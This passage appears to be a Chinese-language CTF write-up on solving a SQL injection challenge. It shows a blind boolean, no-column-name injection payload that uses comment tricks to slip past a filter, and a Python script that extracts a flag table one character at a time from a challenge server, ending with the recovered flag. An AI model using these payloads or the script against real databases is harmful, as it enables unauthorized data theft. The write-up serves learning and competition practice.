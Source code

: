 如果不加上table名称的限制的话，跑出来的当前数据库就是articles，里面是没有flag的，这里就不再截图

到这一步的话，sys这个表就没什么用处了，因为里面没有字段的名称

接下来就是要使用无列名布尔盲注，join在这里也是被ban了的，不过也有其他的方式

这里放几个文章，我也不再赘述了（懒的打字。。）：

- [Mysql无列名注入/PDO/变量注入 | (guokeya.github.io)](https://guokeya.github.io/post/KZ-7hNWpu/)

- [无列名注入绕过information\_schema – JohnFrod's Blog](https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/)

- [MySQL LIKE：模糊查询 - 安暖如初 - 博客园 (cnblogs.com)](https://www.cnblogs.com/lizecheng/p/14646054.html)

首先要确定flag表有几列，这个用无列名加上group by看回显就能知道flag只有一列

然后我在本地测试的话，能通过的是下面这种形式的

```
select '0' ||
(select/**/hex(e.c)/**/from (select/**/c/**/from/**/(select/**/2/**/c/**/union/**/select/**/*/**/from/**/ctf.flll444aaggg9)x/**/limit/**/1,1)e/**/where/**/length(hex(e.c))>1/**/and/**/e.c/**/like/**/'%')
||'0';
```

根据这个，针对like的部分写脚本

```
import requests
import string
dic="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$&'()*+,-./:;<=>?@[\]^`{|}~_"
url='http://47.108.56.168:1113/'

payload={"id":"0'||(select/**/hex(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/length(hex(table_name))>1/**/and/**/hex(table_name)/**/like/**/'%'/**/limit/**/0,1)||'0"}
part1="0'||(select/**/hex(e.c)/**//**/from/**/(select/**/c/**/from/**/(select/**/2/**/c/**/union/**/select/**/*/**/from/**/ctf.flll444aaggg9)x/**/limit/**/2,1)e/**//**/where/**/length(hex(e.c))>1/**/and/**//**/e.c/**/like/**/binary/**/'"
#part1="0'||(select/**/hex(table_name)/**/from/**/sys.schema_table_statistics_with_buffer/**/where/**/table_schema/**/like/**/'ctf'/**/and/**/hex(table_name)/**/like/**/'"
part2="%'/**//**/)||'0"
midpart=''

while True:
    check=0

    for i in dic:
        payload={"id":part1+midpart+i+part2}
        print(payload)
        r=requests.post(url,payload).text
        if '别翻啦' not in r and 'waf' not in r and '你搁这' not in r:
            midpart+=i

            print(i)
            check=1
            break;
    if check==0:
        break
    print(midpart)
print(midpart)
#SYC{73hd72hfds68r42yuf874r79v8sd43u89f}
```
